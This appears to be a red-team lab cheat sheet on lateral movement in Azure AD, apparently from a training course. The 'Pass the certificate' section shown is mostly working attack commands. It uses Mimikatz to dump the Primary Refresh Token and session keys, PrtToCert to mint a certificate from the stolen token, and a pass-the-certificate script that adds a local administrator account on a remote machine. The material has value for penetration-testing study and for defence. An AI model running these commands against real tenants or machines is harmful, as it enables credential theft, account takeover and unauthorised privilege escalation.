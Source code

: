 # Lateral movement

## Azure AD machine --> Azure (or another Azure AD Machine)
* [Pass the certificate](#Pass-the-certificate)
* [Pass the PRT](#Pass-the-PRT) 

## Azure AD --> On-prem
* [Intune](#Intune)
* [Application proxy abuse](#Application-proxy-abuse)

## On-Prem --> Azure AD
* [Azure AD Connect](#Azure-AD-Connect)
  * [Password Hash Sync (PHS) Abuse](#Password-Hash-Sync-(PHS)-Abuse)
  * [Pass Through Authentication (PTA) Abuse](#Pass-Through-Authentication-(PTA)-Abuse)
  * [Federation (ADFS)](#Federation-(ADFS))

# Azure AD --> On-prem
## Pass the certificate
- To go from Azure AD machine to other Azure AD machine if the user has administrative access to other machines.

#### Check if machine is Azure AD Joined
- Check for IsDeviceJoined : YES
```
dsregcmd /status
```

#### Extract PRT, Session key (keyvalue) and Tenant ID
```
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap" ""exit"'
```

#### Extract context key, clearkey and derived key
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "dpapi::cloudapkd /keyvalue:<keyvalue> /unprotect" "exit"'
```

#### Request a certificate from PRT
- https://github.com/morRubin/PrtToCert
- Code is modified in the lab
```
& 'C:\Program Files\Python39\python.exe' RequestCert.py --tenantId <TENANT ID> --prt <PRT VALUE> --userName samcgray@defcorphq.onmicrosoft.com --hexCtx <CONTEXT KEY VALUE> --hexDerivedKey <DERIVED KEY VALUE>
```

#### Use certificate to add a user with administrative privileges
- Code is modified in the lab
- https://github.com/morRubin/AzureADJoinedMachinePTC
```
python C:\Users\vmuser\Documents\student38\AzureADJoinedMachinePTC\Main.py --usercert C:\Users\vmuser\Documents\student38\samcgray@defcorphq.onmicrosoft.com.pfx --certpass AzureADCert --remoteip 10.0.1.5 --command "cmd.exe /c net user student38 Stud38Password@123 /add /Y && net localgroup administrators student38 /add"
```
